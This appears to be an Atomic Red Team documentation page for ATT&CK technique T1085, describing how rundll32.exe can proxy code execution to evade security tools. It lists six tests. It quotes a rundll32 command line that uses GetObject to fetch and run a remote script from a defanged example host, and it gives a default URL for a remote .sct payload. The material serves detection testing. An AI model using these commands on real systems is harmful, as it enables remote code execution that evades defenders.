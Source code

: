 # T1085 - Rundll32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1085)
<blockquote>The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject](#atomic-test-1---rundll32-execute-javascript-remote-payload-with-getobject)

- [Atomic Test #2 - Rundll32 execute VBscript command](#atomic-test-2---rundll32-execute-vbscript-command)

- [Atomic Test #3 - Rundll32 advpack.dll Execution](#atomic-test-3---rundll32-advpackdll-execution)

- [Atomic Test #4 - Rundll32 ieadvpack.dll Execution](#atomic-test-4---rundll32-ieadvpackdll-execution)

- [Atomic Test #5 - Rundll32 syssetup.dll Execution](#atomic-test-5---rundll32-syssetupdll-execution)

- [Atomic Test #6 - Rundll32 setupapi.dll Execution](#atomic-test-6---rundll32-setupapidll-execution)


<br/>

## Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject
Test execution of a remote script using rundll32.exe. Upon execution notepad.exe will be opened.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/emrahkaya/atomic-red-team/feature/v6/atomics/T1085/src/T1085.sct|
